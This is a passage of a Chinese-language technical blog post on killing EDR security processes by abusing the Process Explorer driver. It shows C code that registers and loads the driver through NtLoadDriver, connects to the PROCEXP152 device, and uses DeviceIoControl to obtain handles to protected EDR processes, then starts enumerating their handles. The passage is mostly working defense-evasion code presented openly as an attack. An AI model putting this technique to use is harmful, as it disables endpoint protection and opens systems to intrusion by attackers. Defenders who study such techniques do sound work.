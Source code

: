 NtLoadDriver 函数的参数是注册表，在加载前还需要注册一个注册表，路径为 `HKEY_LOCAL_MACHINE\\System\\CurrentControlSet\\Services\\ProcEXP`

```
status = RegCreateKeyExW(HKEY_LOCAL_MACHINE, regPath, 0, NULL, 0, KEY_ALL_ACCESS, NULL, &hKey, &dwDisposition);
status = RegSetValueEx(hKey, L"Type", 0, REG_DWORD, (BYTE*)&dwData, sizeof(DWORD));
status = RegSetValueEx(hKey, L"ErrorControl", 0, REG_DWORD, (BYTE*)&dwData, sizeof(DWORD));
status = RegSetValueEx(hKey, L"Start", 0, REG_DWORD, (BYTE*)&dwData, sizeof(DWORD));
status = RegSetValueEx(hKey, L"ImagePath", 0, REG_SZ, (const BYTE*)driverPath, (DWORD)(sizeof(wchar_t) * (wcslen(driverPath) + 1)));
```

![image-20210627211804360](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210627211804360.png)

此时再调用 NtLoadDriver 加载驱动：

![image-20210628105357376](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210628105357376.png)

### 连接驱动

ProcEXP驱动已经加载完成后，就需要连接该驱动，以便使用驱动的导出函数 Kill 进程。

```
HANDLE hProcExp = CreateFileA("\\\\.\\PROCEXP152", GENERIC_ALL, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
```

连接使用的 CreateFileA，此 API 连接驱动时，驱动名称格式默认为 `\\\\.\\DeviceName`，这里的 DeviceName 并不是 PROCEXP，通过火绒剑查看：

![image-20210628135833251](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210628135833251.png)实际连接应该为 PROCEXP152

### 获取保护进程句柄

任务管理器直接关闭 EDR 是无法关闭的：

![image-20210628145917986](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210628145917986.png)

原因就是该进程有保护进程，所以要想 Kill EDR，就需要找到保护进程，参考[这篇文章](https://www.cnblogs.com/zmlctt/p/3979108.html)，简要了解一下隐藏进程和保护进程的概念。 

使用 DeviceIoControl 获取保护进程句柄：

```
DeviceIoControl(hProcExp, IOCTL_OPEN_PROTECTED_PROCESS_HANDLE, (LPVOID)&ulPID, sizeof(ulPID),&hProtectedProcess,sizeof(HANDLE),&dwBytesReturned,NULL);
```

### 获取保护进程PID下的所有句柄

先是使用了 NtQuerySystemInformation，这个 API 可以检索系统信息，包括系统进程、线程相关，任务管理器使用的就是这个 API

```c
fNtQuerySystemInformation _NtQuerySystemInformation = (fNtQuerySystemInformation)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtQuerySystemInformation");
```
